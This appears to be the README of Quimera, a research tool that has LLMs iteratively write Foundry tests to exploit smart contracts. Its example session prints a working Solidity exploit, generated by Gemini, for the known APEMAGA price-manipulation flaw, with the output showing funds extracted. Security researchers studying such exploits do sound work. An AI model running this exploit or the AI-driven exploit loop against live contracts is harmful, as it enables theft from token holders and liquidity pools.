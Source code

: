 # Quimera

This is a basic tool that uses large language models (LLMs) to gradually discover smart contract exploits in Foundry by following these steps:

1. Get the smart contract's source code and write a prompt that describes the goal of the exploit (e.g., the balance should increase after a flashloan).

2. Ask the LLM to create or improve a Foundry test case that tries to exploit the contract.

3. Run the test, check the transaction trace, and see if it made a profit.

4. If it did, stop. If not, go back to step 2 and give the LLM the trace from the failed attempt to help it improve.

**Current Status**: This is an experimental prototype. We’re still figuring out the best settings (like the right temperature), how to write better prompts, and what the tool is really capable of. Right now, it's focused on simple exploits involving token manipulation through Uniswap pairs. Follow the discussion on [the rediscovered exploits here](https://github.com/gustavo-grieco/quimera/issues/6).

# Requirements

* You will need an RPC provider (e.g. Alchemy) and an Etherscan API key. Both have free options.
* An LLM service, either a local (e.g. ollama) or remote LLM service (e.g gemini). **You do not need to pay for an API access, specially if you use "manual mode"**
* [Foundry](https://book.getfoundry.sh/)

# Installation

To install, just run:

```
pip3 install https://github.com/gustavo-grieco/quimera/archive/refs/heads/main.zip
```

If you want to use [different LLM providers](https://llm.datasette.io/en/stable/plugins/directory.html#plugin-directory), you will need to install them as plugins. For instance, to install gemini and ollama support:

```
llm install llm-gemini
llm install llm-ollama
```

Note that in "manual mode", there is no need to install any plugin as the user will be copying and pasting the prompt and responses.

**Important**: when using an LLM to test with an already known exploit, make sure the web search is not enabled, otherwise they can will have access to the original exploit code.


# Getting started

1. Modify the keys.sh file to add the RPC and Etherscan keys.
2. Select a block number `B` and then execute `source keys.sh B`
3. Invoke Quimera:

```
quimera TARGET --model gpt-4o --iterations 5
```

You can use `llm models` to show the available models.

# Running modes

Quimera can work with either deployed contracts (using Etherscan to fetch the source code) or in local mode with a Foundry codebase. To see an example how to use it locally, check the [tests/erc4626](tests/erc4626) directory. It imports the OpenZepelin ERC4626 vault which is instantiated using WETH in the tests. To use quimera, you must define a QuimeraBase contract in the [`test/quimera/QuimeraBase.t.sol`](tests/erc4626/test/quimera/QuimeraBase.t.sol) similar to the example one.

# Example session

This session shows the different steps to re-discover the [APEMAGA exploit](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/dc2cf9e53e9ccaf2eaf9806bad7cd914edefb41b/src/test/2024-06/APEMAGA_exp.sol#L23).
While it is likely that this code is part of the millons used to train, Gemini does not seem to be immediately recalling the exploit from memory, but instead, it seems to be trying to understand the code (at least, in some degree).

```
source keys.sh 20175261
quimera 0x56FF4AfD909AA66a1530fe69BF94c74e6D44500C --model gemini-2.5-pro-preview-06-05 --iterations 10
```

Gemini 2.5 Pro Preview (06-05) was used and produced an exploit on a single attempt (it used to take more in previous models):

```solidity
function executeExploit(uint256 amount) internal {
    // We have `amount` of WETH from the flash loan.
    // Let's use a significant portion to buy the target token.
    uint256 amountToSwap = amount * 90 / 100;

    // Path for swapping WETH -> Tonken
    address[] memory path = new address[](2);
    path[0] = address(valuableToken); // WETH
    path[1] = address(token);         // Tonken

    // 1. Swap WETH for Tonken
    uniswapRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        amountToSwap,
        0, // amountOutMin, we take whatever we can get
        path,
        address(this),
        block.timestamp
    );

    // 2. Call the vulnerable 'family' function on the Tonken contract,
    // passing the Uniswap pair's address. This is expected to maliciously
    // reduce the pair's recorded balance of Tonken.
    ITonken(token).family(address(uniswapPair));

    // 3. Call 'sync' on the Uniswap pair. This will update the pair's
    // reserves to match its token balances, which have just been manipulated.
    // The Tonken reserve will drop, artificially inflating its price.
    uniswapPair.sync();

    // Path for swapping Tonken -> WETH
    address[] memory path2 = new address[](2);
    path2[0] = address(token);         // Tonken
    path2[1] = address(valuableToken); // WETH

    // Get our entire balance of Tonken to swap back.
    uint256 tonkenBalance = IERC20(token).balanceOf(address(this));

    // 4. Swap all our Tonken back to WETH at the new, inflated price.
    // The router is already approved from the setUp function.
    uniswapRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        tonkenBalance,
        0, // amountOutMin
        path2,
        address(this),
        block.timestamp
    );
}
```

When an exploit is produced, the output shows the amount extracted:

```
[PASS] testFlaw() (gas: 202442)
Logs:
  ...
  Current valuable balance: 36116755288105983138433
  Surplus: 9137102938761881313
  Final balance 9137102938761881313

```

This exploit consumed a few thousands tokens and costed less than 2 USD.
